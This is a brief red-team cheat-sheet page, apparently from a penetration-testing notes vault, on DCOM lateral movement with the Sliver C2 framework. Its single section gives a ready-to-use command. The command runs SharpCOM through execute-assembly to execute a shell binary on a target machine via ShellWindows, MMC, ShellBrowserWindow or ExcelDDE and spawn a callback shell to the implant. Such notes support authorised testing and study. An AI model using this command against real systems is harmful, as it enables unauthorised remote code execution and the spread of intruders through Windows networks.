 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - T1021-003
  - network-protocols
  - msrpc
  - sliver
  - windows
---
```

# Sliver

## 01 - Spawn Callback Shell

```
sliver (IMPLANT_NAME) > execute-assembly /path/local/to/SharpCOM.exe --Method <ShellWindows | MMC | ShellBrowserWindow | ExcelDDE> --ComputerName <target_IP> --Command "C:\path\to\shell.exe"
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x06 - Pivoting and Lateral Movement/Lateral Movement/Windows/02 - RPC/04 - DCOM/Offensive Tools/Binaries]]